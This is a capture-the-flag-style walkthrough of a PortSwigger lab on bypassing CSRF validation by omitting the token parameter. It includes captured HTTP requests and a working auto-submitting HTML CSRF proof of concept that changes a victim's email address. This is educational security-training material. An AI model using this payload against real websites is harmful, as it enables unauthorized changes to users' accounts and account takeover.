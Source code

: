 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/3837f7eb-8034-4086-9922-bf5797983516)


## Overview :

Validation of CSRF token depends on token being present

Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:
```http
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net
``

## Solution :

When we click **update email**, our browser sends a request as follows.

```http
POST /my-account/change-email HTTP/2
Host: 0ace001f04992fac811c0c22001200e2.web-security-academy.net
Cookie: session=4XUnnUZzmmhBlIMp80cpgsA0mXhohvtd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net
Referer: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=test%40user.net&csrf=yYeftI49JgNBG10a0D6OlJekl0EIGgRt
``

In this POST request, the csrf token is sent along with the email parameter in the body of the request.

We can either try to **remove the csrf parameter entirely** / **give a blank value (csrf=)**
to bypass the csrf protection.
 
When genreating a POC  remember not to give used email, as mentioned in Lab Hint.

First lets entirely remove the csrf parameter 

```http
POST /my-account/change-email HTTP/2
Host: 0ace001f04992fac811c0c22001200e2.web-security-academy.net
Cookie: session=4XUnnUZzmmhBlIMp80cpgsA0mXhohvtd
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net
Referer: https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

email=pwned%40user.net
```

**Generated POC -**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0ace001f04992fac811c0c22001200e2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now paste the HTML script in the exploit server's body & deliver the exploit to victim to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4f215f93-c52c-46ca-9c00-ea47861802b6)
